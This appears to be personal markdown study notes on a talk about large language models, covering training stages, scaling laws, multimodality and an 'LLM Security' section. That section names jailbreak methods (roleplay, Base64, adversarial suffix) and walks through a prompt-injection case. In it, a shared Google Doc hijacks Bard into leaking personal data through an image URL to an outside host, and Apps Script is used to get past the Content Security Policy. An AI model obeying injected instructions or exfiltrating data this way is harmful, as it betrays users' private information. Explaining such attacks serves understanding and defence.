

### Here are the keytakeways

1. LLM Training takes greater time than writing code
2. Gathering the data is a huge part of the process
3. LLMs basically dream ; they are simply a neural network and the neural network tries to predict the next word
4. LLMs suffer from reversal curse
   For Example - Who is Tom Cruise's Mother
   Answer by GPT-4 - Mary Lee Pfieffer

Who is Mary Lee Pfieffer's som ?
Answer by GPT-4 - Don't know!

5. Think of LLMs as mostly inscrutible artifacts. develop correspondingly sophisticated evaluations

### Summary : how to train your chatgpt

#### Stage 1 : Pretraining

1. Download ~10TB of text
2. Get a cluster of ~6,000 GPUs
3. Compress the text into a neural network, pay ~2$M, wait ~12 days
4. Obtain base model.

(Do these steps every year)

#### Stage 2 : Fintuning

1. Write labelling instructions
2. Hire people ( or use scale.ai), collect 100K high quality Q&A responses and or/comparisons
3. Finetune base model on this data, wait ~1 day
4. Obtain assistant model
5. RUn a lot of evaluations
6. Deploy
7. Monitor, collect misbehavious, go to step 1

(Do this every week)

Stage 2 is lot cheaper than Stage 1

#### Stage 3 : Optional

It is often much easier to compare answers instead of writing answers.
LLMS can reference abd folow the labelling instructions just like humans can.
LLMS can create drafts, for humans to slice together into a final label
LLMS can review and critique labels based on the instructions.

### LLM Scaling Laws

Performance of LLMS is smooth well-behaved, predictable function of two parameters ( N and D)
where N is the number of parameters in the network
D is the amount of text we train on
So we can simply expect more intelligence by "Scaling"

### Multimodality

LLMS capability to generate not only text but video as well as audio
Right Now LLMS can both see, and generate images.
Speech to Speech Communication

#### Future development

1. System 1 vs System 2 thinking
   Example
   System 1 would be, what is 2+2
   Speed chess

System 2 would be what is 17x24
Timed chess

LLMS currently only have a System 1
System 2
Like tree search in chess, but in language ( tree of thoughts)
We want to "think":convert time to accuracy
Image time as x-axis and accuracy as y-axis.
So with time accuracy should increase.
A monotonically incrrasing plot

2. Self Improvement
   Learn by imitating expert human players.
   Learn by self-improvement(reward=win the game)

   Big question in LLMs :
   What does Step 2 look like in the open domain of language ?
   Main challenge : Lack of reward criterion

3. Custom LLMs ( Already done)
   We can also add knowledge by uploading files.
   RAG - Retrievel augmented generation. We can upload files and chatgpt can reference those files to give responses. Like Claude 2 we can upload pdfs.
   

4. Communicate with other LLMs
   

### LLM Security

1. Jailbreak (This is so cool though!)
   
   Using Universal Transferable suffix
   Using Roleplay
   Using Base64 encoding
2. Prompt injection

3. Ask Bard to help with a shared Google Doc
4. Google Doc contains a prompt injection attack
5. Bard is hijacked and encodes personal data/information into an image URL
   ! [Data Exfiltration in Progress] (https://wuzzi.net/logo.png?goog=[DATA_EXFILTRATION]
6. The attacker controls the server and gets the data via the GET request
7. Problem: Google now has a "Content Security Policy" that blocks loading images from arbitrary locations
8. Solution: use "Google Apps Scripts"
   Apps Script (office macros-like functionality)
9. Use Apps Script to export the data to a Google Doc (that the attacker has access to)

10. Data poisoning/ Backdoor attacks
